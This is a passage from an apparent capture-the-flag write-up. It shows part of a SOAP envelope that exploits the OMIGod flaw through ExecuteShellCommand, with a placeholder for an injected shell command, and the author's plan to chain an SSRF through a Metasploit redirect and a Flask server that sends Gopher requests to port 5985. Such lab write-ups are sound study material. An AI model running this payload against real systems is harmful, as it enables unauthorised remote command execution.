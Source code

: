           <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
          <w:OperationTimeout>PT1M30S</w:OperationTimeout>
          <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
          <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
          <w:OptionSet s:mustUnderstand="true" />
          <w:SelectorSet>
             <w:Selector Name="__cimnamespace">root/scx</w:Selector>
          </w:SelectorSet>
       </s:Header>
       <s:Body>
          <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
             <p:command>{}</p:command>
             <p:timeout>0</p:timeout>
          </p:ExecuteShellCommand_INPUT>
       </s:Body>
    </s:Envelope>
    """
    

There is a `{}` in the `<p:command>` tag which will be filled in with the
`.format()` call above.

### Flask Server

#### Strategy

I’m going to create a webserver that can redirect the Jarmis request to try to
exploit OMIGod. I’ve already solved the challenge of getting the request to my
server (I did try to have it contact my server directly, but Flask / Python is
not in the DB, and therefore it doesn’t make the 11th request).

The next challenge is getting a POST request via a SSRF. This is challenging.
The User Agent above from the server was `curl`, which means it could be
redirected to make Gopher requests.

I’ll need one of my redirection methods. I’ll use MSF (but `iptables` works
just as well). I’ll set the MSF server to redirect to 8443:

    
    
    msf6 auxiliary(server/jarmisRedirect) > set redirecturl https://10.10.14.6:8443
    redirecturl => https://10.10.14.6:8443
    

I could actually have `redirecturl` be set the the Gopher url that I want to
send, but I’d rather troubleshoot in Python, as that’s just easier for me, so
I’ll have MSF (or `iptables`) redirect to Flask, and Flask redirect to
localhost:5985. I’ll try to show the steps to building it, or you can grab the
final version [here](/files/jarmis-flask.py).

#### Hello World

To start, I’ll create a simple Flask app that listened on 8443 with TLS and
redirects to my box:
